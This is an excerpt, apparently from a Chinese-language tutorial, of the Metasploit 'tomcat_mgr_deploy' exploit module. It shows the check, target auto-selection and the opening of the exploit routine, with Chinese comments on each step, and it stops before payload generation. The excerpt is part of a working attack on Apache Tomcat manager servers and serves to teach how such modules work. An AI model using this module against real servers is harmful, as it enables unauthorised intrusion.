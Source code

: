 攻击模块代码：

+ [exploit/multi/http/tomcat_mgr_deploy](https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/multi/http/tomcat_mgr_deploy.rb)


```
# 检查函数
def check
    # 查询服务器 server 信息，赋值给 res
    res = query_serverinfo
    disconnect
    return CheckCode::Unknown if res.nil?
    if (res.code.between?(400, 499))
      vprint_error("Server rejected the credentials")
      return CheckCode::Unknown
    end

    report_tomcat_credential

    # 打印状态信息，输出到屏幕
    vprint_status("Target is #{detect_platform(res.body)} #{detect_arch(res.body)}")
    return CheckCode::Appears
  end

  # 尝试连接目标主机    
  def auto_target
    print_status("Attempting to automatically select a target...")

    res = query_serverinfo()
    return nil if not res

    plat = detect_platform(res.body)
    arch = detect_arch(res.body)

    # 对 arch 参数进行检查。如果没有则返回
    if (not arch or not plat)
      return nil
    end

    # 查看是否已经连接成功
    targets.each { |t|
      if (t['Platform'] == plat) and (t['Arch'] == arch)
        return t
      end
    }

    # 如果没有目标匹配，则返回
    return nil
  end

  # 攻击模块的代码
  def exploit
    mytarget = target
    if (target.name =~ /Automatic/)
      mytarget = auto_target
      if (not mytarget)
        fail_with(Failure::NoTarget, "Unable to automatically select a target")
      end
      print_status("Automatically selected target \"#{mytarget.name}\"")
    else
      print_status("Using manually select target \"#{mytarget.name}\"")
    end

    # 重新生成 payload 如果 auto-magic 发生改变。
```